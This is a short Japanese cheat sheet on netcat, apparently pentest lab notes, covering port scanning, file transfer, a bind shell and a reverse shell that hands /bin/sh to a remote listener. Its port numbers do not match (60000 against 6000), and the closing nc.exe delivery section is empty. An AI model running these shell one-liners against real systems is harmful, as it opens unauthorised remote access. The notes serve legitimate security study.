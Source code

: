 # netcat

### クライアントモード

```
nc -nv 10.11.0.22 110
```

* -nオプション：DNS の名前解決をスキップする
* -vオプション：いくつかの冗長性を追加する 



### サーバーモード

```
nc -nlvp 4444
```

* -lオプション：リスナーを作成
* -pオプション：リスニングポート番号を指定



### ファイル転送

```bash
# reciever
nc -nlvp 4444 > incoming.exe
```

```bash
# sender
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```



### ポートスキャン

```bash
# TCP
nc -nvv -w 1 -z 10.11.1.220 3388-3390

# UDP
nc -nv -u -z -w 1 10.11.1.115 160-162
```

* -z : zero-I/O mode [used for scanning]
* -w secs : timeout for connects and final net reads



### バインドシェル

```bash
#　待ち受け
nc -lvnp 4444 -e /bin/bash

# 接続
nc -nv xxx.xxx.xxx.xxx 4444
```

* -vオプション：詳細出力を指定

* -eオプション：-e programで利用。接続の受け入れまたは実行後に外部プログラムを実行する

* バインドシェルはfirewallではじかれることが多い。



### リバースシェル

```bash
# sender
nc -nv 192.168.119.175 60000 -e /bin/sh

# listener
nc -lvnp 6000
```



### nc.exeの配送

```

```

